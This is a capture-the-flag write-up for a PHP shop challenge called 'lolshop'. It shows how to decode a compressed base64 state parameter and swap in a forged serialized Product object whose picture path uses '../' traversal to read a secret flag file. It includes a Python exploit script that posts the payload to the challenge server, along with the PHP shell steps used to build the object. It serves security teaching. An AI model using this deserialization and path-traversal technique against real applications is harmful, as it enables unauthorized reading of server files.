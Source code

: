 # Serialization

## lolshop

We wanto to exploit the `restore` function, since it has a vulnerability which can allow execution of non serialized malicious code. Ideally we would also like to exploit the `getPicture` function in `products.php`, since it has an hardcoded path into it. Note that it is also called into a `toDict` function.

To recap: we need to read the secret file. We have a compressed internal state variable, which we would like to decode. It is send back and forth via requests and it is encoded in base 64:

```python
import zlib
zlib.decompress(state)
```

The result is a php serialized object. We can inject anything we want into it. We need another class / more than on class to get a print of the secret file present in the server's file system.

### In a nutshell

If we send a product instead of a state, the `toDict` of the product is going to be called. The output will contain the `getPicture` function, which will read from the filesystem the path we want, which will be the secret file. Code for that:

```python
import zlib, base64, requests, subprocess
from IPython import embed

obj = subprocess.check_output(['php', 'payload.php'])
payload = base64.b64encode(zlib.compress(obj))
print('encoded payload: {}'.format(payload.decode('utf-8')))

print('sending payload...')
r = requests.post("http://jinblack.it:3006/api/cart.php", data={
  'state': payload
})
print('status code: {}'.format(r))
embed()
```

What do we put in the `payload.php` script? The quickest way to generate the PHP code is to use the php shell (`php -a`):

```php
php > ...
php > $p = new Product(0, 'xcv', 'xcv', '../../../../secret/flag.txt', 0);
php > echo serialize($p);
```

In the first line we copied into the console all the class code from the website source code.

**Note:** HTTP status code 500 means internal serve error. It is good, since it means that there's something wrong that we can exploit.

